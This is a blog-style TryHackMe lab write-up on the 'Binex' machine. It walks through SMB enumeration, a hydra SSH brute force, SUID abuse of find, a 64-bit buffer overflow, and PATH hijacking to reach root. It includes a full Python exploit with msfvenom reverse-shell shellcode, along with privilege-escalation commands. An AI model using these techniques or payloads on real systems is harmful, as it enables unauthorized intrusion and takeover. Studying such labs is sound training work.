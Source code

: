 ```yaml
---
title: "Binex-Tryhackme"
author: "Trevor saudi"
date: 2021-04-01T18:50:44.566Z
lastmod: 2022-05-24T14:31:39+03:00

description: ""

subtitle: "Exploit an SUID bit file, use GNU debugger to take advantage of a buffer overflow and gain root access by PATH manipulation."

image: "/posts/2021-04-01_binextryhackme/images/1.png" 
images:
 - "/posts/2021-04-01_binextryhackme/images/1.png"
 - "/posts/2021-04-01_binextryhackme/images/2.png"
 - "/posts/2021-04-01_binextryhackme/images/3.png"
 - "/posts/2021-04-01_binextryhackme/images/4.png"
 - "/posts/2021-04-01_binextryhackme/images/5.png"
 - "/posts/2021-04-01_binextryhackme/images/6.png"
 - "/posts/2021-04-01_binextryhackme/images/7.png"
 - "/posts/2021-04-01_binextryhackme/images/8.jpeg"
 - "/posts/2021-04-01_binextryhackme/images/9.png"
 - "/posts/2021-04-01_binextryhackme/images/10.png"
 - "/posts/2021-04-01_binextryhackme/images/11.png"
 - "/posts/2021-04-01_binextryhackme/images/12.png"
 - "/posts/2021-04-01_binextryhackme/images/13.png"
 - "/posts/2021-04-01_binextryhackme/images/14.png"
 - "/posts/2021-04-01_binextryhackme/images/15.png"
 - "/posts/2021-04-01_binextryhackme/images/16.png"
 - "/posts/2021-04-01_binextryhackme/images/17.png"
 - "/posts/2021-04-01_binextryhackme/images/18.png"
 - "/posts/2021-04-01_binextryhackme/images/19.png"
 - "/posts/2021-04-01_binextryhackme/images/20.png"
 - "/posts/2021-04-01_binextryhackme/images/21.png"


aliases:
    - "/binex-tryhackme-c07c3423186e"

---
```


![image](/posts/2021-04-01_binextryhackme/images/1.png#layoutTextWidth)


Exploit an SUID bit file, use GNU debugger to take advantage of a buffer overflow and gain root access by PATH manipulation.

**Enumeration**

Started off by running rustscan to discover open ports. We end up with port 22,139,445

![image](/posts/2021-04-01_binextryhackme/images/2.png#layoutTextWidth)


Port 139 and 445 are NBT and SMB services which we can enumerate with enum4linux

[139,445 - Pentesting SMB](https://book.hacktricks.xyz/pentesting/pentesting-smb)
`enum4linux -A &lt;IP&gt;`
![image](/posts/2021-04-01_binextryhackme/images/3.png#layoutTextWidth)


The shares weren’t particularly worth looking into. So I let the enumeration finish and we discover some users. `tryhackme` sticks out so let’s try bruteforcing ssh with this user

![image](/posts/2021-04-01_binextryhackme/images/4.png#layoutTextWidth)


**Initial Foothold**

Running hydra against the username tryhackme and the rockyout.txt password list gives us the password to the ssh login

![image](/posts/2021-04-01_binextryhackme/images/5.png#layoutTextWidth)


We can now login and exploit the binaries

**Privilege escalation #1: SUID binary**

We can begin by locating a binary with SUID bit set.
`find / -perm -u=s -type f 2&gt;/dev/null`
![image](/posts/2021-04-01_binextryhackme/images/6.png#layoutTextWidth)


The /usr/bin/find can be exploited to execute commands as the des user

[find | GTFOBins](https://gtfobins.github.io/gtfobins/find/#suid)


Using the GTFOBins we obtain the command `  
/usr/bin/find . -exec /bin/sh -p \; -quit`

Execute it to obtain a shell with an effective user id of that of des. Navigate to /home/des to obtain his flag

![image](/posts/2021-04-01_binextryhackme/images/7.png#layoutTextWidth)


**Privilege escalation #2: Buffer Overflow**

![image](/posts/2021-04-01_binextryhackme/images/8.jpeg#layoutTextWidth)


I am still new to 64-bit BOFs but I was able to navigate my way through this one with a bit of some tutorials.

Let’s change user and work with des. Here we are given a binary file that accepts a string as input. Supplying a given length crashes it.

![image](/posts/2021-04-01_binextryhackme/images/9.png#layoutTextWidth)


I checked the file information and it’s a 64-bit ELF file

![image](/posts/2021-04-01_binextryhackme/images/10.png#layoutTextWidth)


**Fuzzing the binary file and finding the offset**

We can generate a bunch of As and try figure out what length of As crash the binary

![image](/posts/2021-04-01_binextryhackme/images/11.png#layoutTextWidth)


Let’s do this inside gdb and observer how our registers behave

![image](/posts/2021-04-01_binextryhackme/images/12.png#layoutTextWidth)


The rbp is overwritten with the As. Let us send a cyclic pattern and see if we can calculate the offset.

![image](/posts/2021-04-01_binextryhackme/images/13.png#layoutTextWidth)


Send that to our program , inspect the registers and copy the value of the rbp

![image](/posts/2021-04-01_binextryhackme/images/14.png#layoutTextWidth)


Use pattern_offset to find the pattern. We get it at 608

![image](/posts/2021-04-01_binextryhackme/images/15.png#layoutTextWidth)


**Overwriting the RBP**

We can confirm we have control over the RBP by trying to overwrite it. Generate a payload of 608 As + 8Bs

![image](/posts/2021-04-01_binextryhackme/images/16.png#layoutTextWidth)


The rbp is overwritten with the 8Bs.

**Examining the stack**

We now need to examine the stack further so we can find the starting address of the buffer. The command below prints 100 bytes from the top of the stack
`x/100x $rsp`
![image](/posts/2021-04-01_binextryhackme/images/17.png#layoutTextWidth)


The command below gets us the start of the buffer

`x/100x $rsp-700`

![image](/posts/2021-04-01_binextryhackme/images/18.png#layoutTextWidth)


We can note down an address close to the start of the buffer, we will use this as the value of the rip while creating our final exploit

**Creating the final exploit**

We intially found our offset to be **608 bytes**, which means that if we write past **608 bytes** eg **608 +8 = 616 bytes** , we will overwrite the base pointer in the stack. Note that the return address lies just above it, hence **616+8 bytes** are required to overwrite the saved return address.

Let us create a shellcode which we use to spawn a shell using **msfvenom**

![image](/posts/2021-04-01_binextryhackme/images/19.png#layoutTextWidth)


Putting all these into a python script
`from struct import pack``payload_len = 616  
nop = b&#34;\x90&#34;*200  
new_rip = pack(&#34;&lt;Q&#34;,0x7fffffffe2d4) #selected randomly near the start of the stack``buf =  b&#34;&#34;  
buf += b&#34;\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d\x05&#34;  
buf += b&#34;\xef\xff\xff\xff\x48\xbb\x32\xa3\x67\xe0\x79\x51\x8b&#34;  
buf += b&#34;\x33\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4&#34;  
buf += b&#34;\x58\x8a\x3f\x79\x13\x53\xd4\x59\x33\xfd\x68\xe5\x31&#34;  
buf += b&#34;\xc6\xc3\x8a\x30\xa3\x76\xbc\x73\x53\xa2\x92\x63\xeb&#34;  
buf += b&#34;\xee\x06\x13\x41\xd1\x59\x18\xfb\x68\xe5\x13\x52\xd5&#34;  
buf += b&#34;\x7b\xcd\x6d\x0d\xc1\x21\x5e\x8e\x46\xc4\xc9\x5c\xb8&#34;  
buf += b&#34;\xe0\x19\x30\x1c\x50\xca\x09\xcf\x0a\x39\x8b\x60\x7a&#34;  
buf += b&#34;\x2a\x80\xb2\x2e\x19\x02\xd5\x3d\xa6\x67\xe0\x79\x51&#34;  
buf += b&#34;\x8b\x33&#34;``shellcode = buf``shellcode_len = len(shellcode)  
nop_len = len(nop)  
padding = b&#34;A&#34;*(payload_len-shellcode_len-nop_len)``payload = [  
 nop,  
 shellcode,  
 padding,  
 new_rip  
]``payload = b&#34;&#34;.join(payload)  
print(payload)`

_The nop_sled is used to increase our chances of hitting the shellcode hence providing some stability to the exploit. The struct module ensures we obey little endian format_

Start a meterpreter shell or a nc one listening on port 4444

![image](/posts/2021-04-01_binextryhackme/images/20.png#layoutTextWidth)


We get a reverse shell as kel user :) Get the flag and credentials to ssh as kel

**Privilege escalation #3: Path Variable Manipulation**

“PATH is an environmental variable in Linux and Unix-like operating systems which specifies all bin and sbin directories that hold all executable programs are stored”

![image](/posts/2021-04-01_binextryhackme/images/21.png#layoutTextWidth)


the exe.c file on user kel’s home directory shows that we are calling the ps system command. The program will search the ps command in the directories of the PATH variable. We can print out the PATH variables for the kel user as follows
`kel@THM_exploit:~$ echo $PATH  
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin  
kel@THM_exploit:~$`

We can stage our attack as follows - Create our own ps file that spawns a shell and add it to the beginning of $PATH. So when we run the exec binary, we get a shell as root

`kel@THM_exploit:~$ cd /tmp  
kel@THM_exploit:/tmp$ echo “/bin/bash” &gt; ps  
kel@THM_exploit:/tmp$ chmod 777 ps  
kel@THM_exploit:/tmp$ echo $PATH  
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin  
kel@THM_exploit:/tmp$ export PATH=/tmp:$PATH  
kel@THM_exploit:/tmp$ cd  
kel@THM_exploit:~$ ./exe   
root@THM_exploit:~#`

We get root !
